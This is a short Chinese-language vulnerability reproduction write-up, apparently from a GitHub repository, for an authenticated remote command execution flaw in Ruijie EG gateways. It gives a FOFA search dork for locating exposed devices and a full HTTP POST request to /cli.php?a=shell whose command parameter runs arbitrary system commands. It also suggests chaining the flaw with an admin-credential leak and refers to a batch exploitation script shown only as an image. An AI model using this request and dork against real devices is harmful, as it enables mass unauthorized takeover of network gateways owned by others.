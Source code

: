 # 影响范围：
锐捷EG易网关
# FOFa dork：
app="Ruijie-EG易网关"
# 漏洞复现：
登录页面：
![image](images/index.png)
此漏洞需要成功登录系统才能成功利用，可以结合管理员账号密码泄露漏洞获取管理员账号密码登录系统进一步进行漏洞利用。     
登录系统
![image](images/login.png)
登录成功后系统会返回当前设备状态，找到请求cli.php的数据包，完整数据包如下：
```
POST /cli.php?a=shell HTTP/1.1
Host: xxx.xxx.xxx.xxx
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Cookie: RUIJIEID=lto1mbbksusobp0u453c4elnp4; user=admin
Connection: close
Content-Length: 37

notdelay=true&command=df
```
![image](images/cli.php.png)
将command参数值替换为需要执行的系统命令即可：  
![image](images/rce.png)
使用脚本进行批量验证，本脚本结合了管理员账号泄露漏洞，自动获取账号密码并进行漏洞检测：  
![image](images/script.png)


